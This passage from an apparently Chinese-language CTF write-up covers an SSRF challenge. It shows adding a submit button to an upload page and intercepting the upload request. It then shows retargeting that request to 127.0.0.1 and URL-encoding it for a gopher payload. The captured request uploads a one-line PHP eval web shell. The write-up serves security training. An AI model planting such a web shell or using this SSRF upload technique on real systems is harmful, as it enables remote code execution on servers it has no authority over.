 可以发现`flag.php`仅要求上传的文件大小大于 0 即可得到`flag`，并没有任何过滤

接下来我们尝试利用`gopher`协议上传文件，首先需要得到文件上传的数据包，才能编写`gopher`的`payload`

因此我们对这个文件上传的`flag.php`页面进行`F12`前端改写，添加一个`submit`提交按钮

（但这里点击提交按钮是得不到`flag`的，必须从目标机本地访问）

添加一行

```
<input type="submit" name="submit">
```

则会出现一个提交查询按钮：

![][11]

随便选择文件，开启拦截包点击提交查询

![][12]

由于访问`flag`需要本地访问，故把`HOST`改为`127.0.0.1`

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------22285140113870486144781081380
Content-Length: 379
Origin: http://challenge-ad7efe5d754337a9.sandbox.ctfhub.com:10080
Connection: close
Referer: http://challenge-ad7efe5d754337a9.sandbox.ctfhub.com:10080/?url=127.0.0.1/flag.php
Upgrade-Insecure-Requests: 1

-----------------------------22285140113870486144781081380
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream

<?php @eval($_POST['a']);
-----------------------------22285140113870486144781081380
Content-Disposition: form-data; name="submit"

提交查询
-----------------------------22285140113870486144781081380--

```

然后和上面的操作一样`url`编码一次，把`%0A`换成`%0D%0A`，然后再`url`编码一次

```
```

[1]: https://www.ctfhub.com/#/index
[2]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012800.png
[3]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012936.png
[4]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012958.png
[5]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013021.png
[6]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013152.png
[7]: https://gchq.github.io/CyberChef/
[8]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013522.png
[9]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013613.png
[10]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013714.png
[11]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013907.png
[12]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013935.png
[13]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_014115.png
[14]: https://www.cnblogs.com/-mo-/p/11673190.html
[15]: https://www.cnblogs.com/Web-Fresher/p/13723103.html
[16]: https://blog.csdn.net/rfrder/article/details/108589988
[17]: https://www.freebuf.com/articles/web/258365.html
[18]: https://mp.weixin.qq.com/s/saNLDe4OprhrsdfQ2scmpg
